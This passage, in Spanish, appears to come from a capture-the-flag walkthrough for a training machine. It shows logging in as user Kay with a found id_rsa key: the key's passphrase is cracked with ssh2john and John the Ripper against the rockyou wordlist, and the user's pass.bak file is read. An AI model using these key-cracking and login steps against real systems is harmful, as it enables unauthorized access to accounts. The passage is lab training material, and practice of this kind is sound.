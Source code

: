 Podemos utilizar la clave `id_rsa` para acceder a la máquina como usuario **Kay**. Antes de proceder, debemos asegurarnos de otorgar los permisos necesarios para utilizar la clave de forma adecuada.

```bash
❯ chmod 600 id_rsa
```

Una vez otorgados los permisos necesarios a la clave `id_rsa`, podemos proceder a acceder a la máquina utilizando dicha clave como autenticación.

```bash
❯ ssh kay@10.10.132.236 -i id_rsa
Enter passphrase for key 'id_rsa':
```

Dado que la clave `id_rsa` está encriptada y se nos solicita una contraseña para desencriptarla, podemos utilizar la herramienta `ssh2john` para convertir la clave `id_rsa` a un formato compatible con **John the Ripper**. De esta manera, podremos intentar crackear la contraseña de la clave.

```bash
❯ ssh2john id_rsa > hash_id_rsa
```

Ahora que tenemos el hash resultante de la clave `id_rsa`, podemos proporcionarlo a la herramienta `john` para que intente realizar un proceso de cracking y así obtener la contraseña original de la clave.

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash_id_rsa
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
beeswax          (id_rsa)     
1g 0:00:00:00 DONE (2023-05-20 00:16) 20.00g/s 1655Kp/s 1655Kc/s 1655KC/s behlat..bammer
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Excelente. Hemos logrado obtener la contraseña para la clave `id_rsa` y ahora podemos acceder a la máquina como usuario **Kay**.

```bash
❯ ssh kay@10.10.132.236 -i id_rsa
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
kay@basic2:~$
```

Una vez como usuario **Kay** ya podemos leer la contraseña final.

```bash
kay@basic2:~$ ls
pass.bak
kay@basic2:~$ cat pass.bak 
heresareallystrong***********************************
```

¡Happy Hacking!
